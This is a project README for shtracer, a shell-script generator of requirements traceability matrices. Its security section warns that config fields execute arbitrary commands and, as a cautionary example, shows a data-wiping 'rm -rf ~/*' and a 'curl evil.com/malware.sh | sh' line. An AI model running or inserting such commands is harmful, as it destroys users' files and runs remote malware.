


# 🐚 shtracer

[](https://github.com/qq3g7bad/shtracer/actions/workflows/test.yml)
[](LICENSE)
[](https://pubs.opengroup.org/onlinepubs/9699919799/)

Open source traceability matrix generator written in shell scripts.

## 🚩 About

ShellTracer (**shtracer**) is a project for creating a [requirements traceability matrix](https://en.wikipedia.org/wiki/Traceability_matrix) (RTM) easily.

* For maximum extensibility and easy version control, simplify the input/output files as text files.
* For portability, use only shell scripts to create RTMs.



## 📷 Screenshots

### HTML output


### Text output

* Each row traces documents and source files by tags.

```text
@REQ1.2@ @ARC2.1@ @IMP2.1@ @UT1.1@ @IT1.1@
@REQ1.2@ @ARC3.1@ @IMP3.1@ @UT1.2@ @IT1.1@
@REQ1.4@ @ARC2.1@ @IMP2.1@ @UT2.1@ @IT1.1@
```

### UML

* Drawn by Mermaid.



## 🥅 Goal

* Make the requirements traceability matrix (RTM) through markdown formatted text files.
* Use only normal shell scripts and no other programs.

## ⚽ Getting started

1. Open bash.
1. Set the current directory at this repository.
1. Enter the following commands.

```bash
# Change mode
chmod +x ./shtracer

# Read a configuration file and create a traceability matrix
./shtracer ./sample/config.md
```

## 🚀 Usage

```text
Usage: shtracer <configfile> [options]

Options:
  -c <before_tag> <after_tag>      Change mode: swap or rename trace target tags
  -v                               Verify mode: detect duplicate or isolated tags
  -t                               Test mode: execute unit tests
  -h, --help                       Show this help message

Examples:
  1. Normal mode
     $ ./shtracer ./sample/config.md

  2. Change mode (swap or rename tags).
     $ ./shtracer ./sample/config.md -c old_tag new_tag.

  3. Verify mode (check for duplicate or isolated tags).
     $ ./shtracer ./sample/config.md -v

  4. Test mode
     $ ./shtracer -t

Note:
  - The <configfile> argument must always be specified before options.

```

### Change tag mode

* Change tags written in all trace targets.
* This function is useful when requirements are updated or revised.

### Verify tag mode

* Verify whether tags are duplicated or isolated.

<details>
<summary>Duplicated</summary>

#### Duplicated

```markdown
<!-- in file1 -->
<!-- @TAG1@ -->
## TEST TARGET 1
```

```markdown
<!-- in file2 -->
<!-- @TAG1@ -->
## TEST TARGET 2
```

</details>

<details>
<summary>Isolated</summary>

#### Isolated

```markdown
<!-- in file1 -->
<!-- @TAG1@ -->
## TEST TARGET 1
```

* Except for this, `@TAG1@` never appears in the trace targets.

</details>

## 🗂️ Features

* Create traceability markdown files from following input files.
  * Markdown files which include contents to trace.
  * These contents are indexed by their own IDs.
  * Connections between files are specified by IDs.
  * These IDs are written in each markdown file as comment blocks.
* (Optional) Use markdown files as intermediate products.
  * Create intermediate markdown files from other file format by using some scripts.
  * Create non-markdown output files by using some scripts.

For details, see documents in `./docs/` directory.

## 🌏 Requirements

* **POSIX-Compliant Shell**:
  * shtracer is written in POSIX-compliant shell scripting, ensuring compatibility across a wide range of systems. Although it is commonly used with bash, it should work with any POSIX-compliant shell.
  * **Linux/macOS**:
    * A POSIX shell is typically included by default on Linux and macOS systems.
  * **Windows**:
    * Windows does not include a POSIX-compliant shell natively. To use shtracer on Windows, you can install one of the following:
      * Git Bash
      * MinGW
      * Cygwin

### Optional

* [shUnit2](https://github.com/kward/shunit2) (for unit testing)
* [highlight.js](https://highlightjs.org/) (for syntax highlighting)
* [mermaid.js](https://mermaid.js.org/) (for showing UMLs)

## 🔧 Development Setup

For contributors and developers working on shtracer, we provide optional Git hooks to maintain code quality.

### Code Quality Tools

Install the following tools for local development (optional but recommended):

```bash
# Install shellcheck
sudo apt-get install shellcheck  # Debian/Ubuntu
brew install shellcheck          # macOS

# Install shfmt
go install mvdan.cc/sh/v3/cmd/shfmt@latest
# or download from https://github.com/mvdan/sh/releases
```

### Git Hooks

Optional pre-commit hooks are available to automatically check code quality (shellcheck, shfmt) before commits. These hooks are optional for local development as all checks are also enforced in CI.

For installation and usage, see [.git-hooks/README.md](.git-hooks/README.md).

## ⚠️ Security Considerations

**IMPORTANT: Only use trusted configuration files.**

shtracer executes shell commands specified in configuration files through the following features:

* **PRE-EXTRA-SCRIPT**: Arbitrary shell commands executed before processing
* **POST-EXTRA-SCRIPT**: Arbitrary shell commands executed after processing

### Security Risks

1. **Arbitrary Code Execution**: Malicious configuration files can execute any shell command with your user permissions
2. **File System Access**: Scripts can read, modify, or delete files accessible to your user account
3. **Network Access**: Scripts can make network connections or download additional malicious code

### Best Practices

* ✅ **Only use configuration files from trusted sources**
* ✅ **Review PRE-EXTRA-SCRIPT and POST-EXTRA-SCRIPT contents before execution**
* ✅ **Avoid running shtracer with elevated privileges (sudo)**
* ✅ **Use version control to track configuration file changes**
* ❌ **Never execute configuration files from untrusted or unknown sources**

### Example of Potentially Dangerous Configuration

```markdown
* **PRE-EXTRA-SCRIPT**: `rm -rf ~/*`  <!-- ⚠️ DANGEROUS: Deletes all user files -->
* **POST-EXTRA-SCRIPT**: `curl evil.com/malware.sh | sh`  <!-- ⚠️ DANGEROUS: Downloads and executes remote code -->
```

**For security-sensitive environments, consider:**

* Auditing all configuration files before use
* Running shtracer in a sandboxed environment (containers, VMs)
* Implementing organization-specific configuration file approval processes

## 📝 Contribution

* RTM is important not only in software field but also in other fields, so that contributions from other fields are welcomed.
* Consider using [conventional commits](https://www.conventionalcommits.org/en/v1.0.0/) rules for creating explicit and meaningful commit messages.

## ✅ TODO

### High Priority

* Improve HTML output styling: Apply nice colorschemes that are colorblind-friendly
* Make a cross-reference table for easy reference
* Export all trace data in Markdown format.

### Future Enhancements

* Use OR condition in the extension filter
* Use custom CSS files for HTML output
* Support Excel/CSV export formats
